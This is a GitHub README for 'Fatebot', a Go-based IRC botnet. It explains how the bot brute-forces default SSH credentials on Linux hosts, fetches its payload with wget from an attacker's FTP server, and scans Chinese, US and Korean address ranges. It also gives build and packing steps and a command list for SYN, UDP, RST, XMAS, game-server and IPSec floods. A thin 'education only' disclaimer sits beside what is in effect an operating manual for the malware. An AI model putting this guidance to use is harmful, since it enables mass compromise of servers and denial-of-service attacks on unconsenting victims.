 # Fatebot
This is my first <strong>IRC botnet</strong> for launch Denial of Service attack. Scan target are anything that run linux, open default SSH port, use default username and password. This bot are write in "Go" language. <strong>For education purpose only. Please test it in your lab, i create this for join university in the future not for attack anyone server with out any permission!!!</strong>

<br>Bozer\Bulldozer (old name is R4bin) the author of Fatebot, feel free to do anything with it. read more detail in license.</br>
<br><ins>If you have an issue please understand that some of them i can't answer because it will make me have a trouble with The cyber law.</ins></br>

<img src="assets/FateBot.png" alt="Fatebot" width="400" height="400">

# Infect
The infect function of this bot is scan by default SSH port. Option about scan feature in this bot is scan on USA, CN, KR network or you can do a random scan or even you can add you own mods like russia or india isp mods, all of these it's up to you. This bot will brute-force attack to the target and use <strong>"wget"</strong> for download the payload from FTP server, so... please prepair your FTP server first it's very important for the infect process. <strong>(You can use any option any server type that can host the payload not maintionly to be an FTP server.)</strong>

# Add more network

(1) Create slice of your network.

	Example:
	
		var UK_netList = []string{
			"123.123", // 123.123.0.0/16
			"234.234", // 234.234.0.0/16
		}
	
	# since v0.6.0 will be use only 16bit of the ip range(I'm still confused about subnet mask lol).

(2) Then go down to the "ScanMode" function and add the case of your network and custom the command.
	
	Example:
		
		case modes == "-uk": //custom your command.
			b.Scanner(UK_netList, false) //just config the first argument to your network.
		
<strong>I use shodan to do a static and analysis of scanning like how many of SSH port are open on which isp/org, what is the most used OS, version and etc.</strong>

# DDoS
Attack feature will play around with <strong>Volumetric</strong> mostly, but also have an <strong>Application</strong> too.
All of the attack vectors will be <strong>random source port automatically, min and max of attack size will be 10 - 1450bytes.</strong>


<img src="assets/synflood.png" alt="synflood, dos example">

# Build payload

	chmod +x build.sh
	./build.sh <payload>
	
	#Tip: You can download upx packer to make your payload have a smaller size. It's not help much but it's really useful.
	
	Redhat:
		yum install upx -y && upx -9 bin/<payload>
		
	Debian:
		apt install upx -y && upx -9 bin/<payload>
		
# Requirements
<ul>
	<li>IRC Server</li>
</ul>

<ul><li>IRC Backup Server <strong>(Optional)</strong></li></ul>

<ul>
	<li>IRC Client</li>
</ul>

<ul>
	<li>Payload Hosting Server</li>
</ul>

<ul>
	<li>Go Compiler</li>
</ul>

<ul>
	<li>UPX Packer <strong>(Optional)</strong></li>
</ul>

<ul>
	<li>Code\Text Editor</li>
</ul>

# IRC Commands
	
	DDoS Vectors:
	
		?udp 	 <srcIP> <dstIP> <port> <size>			Just a normal UDP Flood attack.
		?syn 	 <srcIP> <dstIP> <port> <size>			Just a normal SYN Flood attack.	
		?ack 	 <srcIP> <dstIP> <port> <size>			Just a normal ACK Flood attack.
		?fin	 <srcIP> <dstIP> <port> <size>			Flood TCP FIN packets to request close connection when target server are blocking a syn packet.
		?rst 	 <srcIP> <dstIP> <port> <size>			Flood TCP RST packets to broke a TCP connection between client and target server.
		?sap     <srcIP> <dstIP> <port> <size>			Flood by using TCP SYN+ACK Flags to the target server.
		?xmas    <srcIP> <dstIP> <port> <size>			Flood TCP packets by using all of TCP Flags to target server.
		?vse 	 <srcIP> <dstIP>				Flood TSource Engine Query request to the target game server that used valve source engine.
		?fms 	 <srcIP> <dstIP>				Flood query payload to a FiveM game server(They use to host GTAV i guess. i'm only playing "Hell let loose" for now, lol).
		?ipsec 	 <srcIP> <dstIP>				Flood payload to overwhelm system resources of VPN service and make IPSec VPN connections being affected.
	
	?scan 	 <modes> <ftp>				Scan SSH port on the network, Brute-Force attack to the target and install the payload by "wget".
	
	Scanner modes:
	
		-cn		Scan on china network.
		-usa		Scan on the united state of america network.
		-kr		Scan on south korea network.
		-r		Scan with random ip.	
		
	?info				Get bot system information, for bot analysis.
	?kill				Bot self-close.
	?stopddos 			Stop ddos attacking.
	?stopscan			Stop scanning.
